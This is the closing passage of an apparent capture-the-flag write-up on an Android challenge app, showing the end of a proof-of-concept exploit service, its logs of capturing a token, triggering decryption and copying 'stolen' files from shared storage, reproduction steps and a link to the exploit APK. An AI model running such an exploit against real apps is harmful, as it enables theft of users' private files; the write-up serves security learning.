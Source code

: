 ```java
            NotificationManager nm = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);  
            nm.cancel(999); // cancel notification  
        } catch (Exception ignored) {}  
        stopSelf();  
        Log.i("PoC", "stealth exploit completed!!");  
    }  
  
    @Override  
    public IBinder onBind(Intent i) {  
        return null;  
    }  
}
```

The logs looks like:
```bash
I  token=8ksec_S3cr3tT0k3n_D0N0tSh4r3
W  cannot close notification panel: Permission Denial: android.intent.action.CLOSE_SYSTEM_DIALOGS broadcast from (pid=4530, uid=10224) requires android.permission.BROADCAST_CLOSE_SYSTEM_DIALOGS.
I  dummy notification posted
I  START_SECURITY sent – waiting SECURITY_STARTED ...
I  DECRYPTION_COMPLETE, looting...
W  cannot close notification panel: Permission Denial: android.intent.action.CLOSE_SYSTEM_DIALOGS broadcast from (pid=4530, uid=10224) requires android.permission.BROADCAST_CLOSE_SYSTEM_DIALOGS.
I  traversing: /storage/emulated/0
I  stolen: file.txt
I  stolen: filetest.txt
I  copied 2 files into /storage/emulated/0/Android/data/om.lautaro.andropseudoexploit/files/loot
I  === file.txt ===
I     asdasd
I  === end ===
I  === filetest.txt ===
I     aaaaaa
I  === end ===
I  stealth exploit completed!!
```

![[8ksec-AndroiPseudoProtect_3.png]]

![[8ksec-AndroiPseudoProtect_4.png]]

Steps to reproduce:
- Launch the target app.
- Encrypt the files.
- Put the target app in background.
- Launch the PoC app and see the logs.

**Download PoC**: https://lautarovculic.com/my_files/androPseudoExploit.apk

I hope you found it useful (: